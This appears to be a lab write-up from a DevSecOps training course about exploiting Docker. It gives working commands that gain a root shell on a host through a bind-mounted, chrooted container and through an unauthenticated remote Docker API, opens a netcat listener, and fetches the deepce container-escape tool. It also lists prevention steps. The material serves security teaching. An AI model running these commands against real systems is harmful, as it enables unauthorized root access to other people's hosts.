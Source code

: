 An attacker can use many resources to exploit remote hosts, i.e., [GTFOBins](https://gtfobins.github.io/#docker) is one of the most famous references. You can search any binary applications to know how to legitimate it into high-level access.


-> To get shell \
``docker run -v /:/mnt --rm -it alpine chroot /mnt sh``

-> To get shell of remote host \
``docker -H prod-0x3qnu8a:2375 run -v /:/mnt --rm -it alpine chroot /mnt sh``


***Here are a few key points about the steps that we did from the beginning:***

1. Found unauthenticated Docker API in the remote host
2. Use bind mount volume to get access into the host filesystem
3. chroot command to switch the root directory of container to the mapped volume which mounts / to /mnt
4. Getting full access to remote host filesystem inside the container that we run using docker run

***How to Prevent***
1. Don’t expose the Docker daemon socket to the internet without authentication, authorization, or another approach to protecting the application from the attacker. If you use Docker, you would need to use SSH or TLS as authentication
2. Restrict several commands in the container using Seccomp, AppArmor feature or remove unnecessary packages
3. Follow Principle of least priviledges and use low privileged user when running container. This can stop privilege escalation attack
4. Whitelist access to the Docker socket if you need it to be accessed by other internal application
5. Monitor your container activity to block malicious commands

---

### Exploiting Containerized Apps

We can identify security issues in this application when we scan it using OWASP ZAP. \
``docker run --rm softwaresecurityproject/zap-stable:2.14.0 zap-baseline.py -t https://sandbox-0x3qnu8a-8000.lab.practical-devsecops.training``


-> To listen incoming connections \
``apt install -y netcat`` \
``nc -lp 4242``

---

### Docker Exploitation using deepce

> Docker Enumeration, Escalation of Privileges, and Container Escapes (DEEPCE) is an open-source tool written using a Bash script and designed to automate the exploitation process in Docker containers for pentesters, hackers, and developers also can help you identify vulnerabilities and misconfigurations in your Docker environment.

Let’s download the deepce tool. \
``curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o /usr/local/bin/deepce.sh``
